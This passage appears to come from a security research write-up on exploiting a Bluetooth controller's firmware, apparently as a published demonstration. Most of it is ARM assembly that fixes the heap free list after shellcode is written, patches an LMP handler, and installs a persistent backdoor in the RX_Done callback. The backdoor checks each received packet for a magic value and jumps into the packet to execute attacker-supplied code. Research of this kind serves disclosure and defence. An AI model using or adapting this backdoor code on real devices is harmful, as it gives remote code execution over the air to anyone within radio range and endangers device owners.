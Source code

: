 Furthermore, we have to ensure that further allocations of the affected BLOCK do not result in a crash.
As we have just written our shellcode, the head of the free list, our next allocation, is an invalid address.
We set the head of the linked list to an unaffected section of the free-list.


```
ldr r0,=0x205e38
ldr r1,=0x218220
str r1, [r0]
```

The full buffer size is zeroed on initialization, so we will destroy also another patch for the LMP Extended Features Response.
We replace this function with a jump to the original handler in ROM to guarantee a successful connection setup for further attempts.
```
ldr r0, =0xd266c
ldr r1, =0xf000f8df
str r1, [r0]

ldr r0, =0xd2670
ldr r1, =0x6166d
str r1, [r0]
```

Last we install a backdoor.
This will be set as a callback for `RX_Done` within the `virtualFunction` table.
This is invoked for each packet, that is received by the controller.

```
ldr r0, =0x205fcc
ldr r1, =0xd2691
str r1, [r0]

done:
pop {r0-r4,pc}
```

At address `0x200e80` a pointer called dmaActiveRXBuffer is located.
This points to a location in RAM, where the received packet is stored as it is the case for ACL and L2CAP packets.
If no packet is received using the `bcs_dma` method, its value is zero.
We can check within the packet for a magic value.
If this value is present, we jump inside the received packet and execute the containing code.

```
ldr r0,=0x200e80
ldr r0, [r0]
add r0, #12
ldr r1, [r0]
ldr r2,=0xdeadc0de
cmp r1, r2
bne skip
add r0, #5
bx r0

skip:
eor r0, r0
bx lr
```

And here is the final demonstration, putting all of this together.

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/qMMKNF_9fA0/0.jpg)](https://www.youtube.com/watch?v=qMMKNF_9fA0)
